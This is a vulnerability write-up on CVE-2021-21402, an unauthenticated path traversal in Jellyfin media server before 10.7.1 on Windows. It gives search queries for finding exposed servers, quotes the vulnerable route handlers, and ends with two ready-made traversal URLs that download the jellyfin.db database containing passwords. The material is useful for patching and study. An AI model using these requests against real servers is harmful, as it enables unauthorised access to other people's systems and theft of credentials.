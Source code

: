 # Jellyfin stream.mp3 arbitrary file reading vulnerability CVE-2021-21402

## Vulnerability Description

Jellyfin is a free software media system. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jellyfin < 10.7.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title='Jellyfin' || body='http://jellyfin.media'</span>

## Vulnerability reappears

Both the `/Audio/{Id}/hls/{segmentId}/stream.mp3` and `/Audio/{Id}/hls/{segmentId}/stream.aac` routes allow any file to be read on Windows. 

Path.GetExtension(Request.Path)` returns an empty extension, resulting in full control over the path of the result file. 

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```



Use the following request to read the database file with the password



```plain
http://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/
```



Another code is as follows



```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

The `/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}` route allows reading of any unauthenticated files on Windows. 

The POC is as follows, download the same file

```plain
http://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```


</a-alert>
<br/>
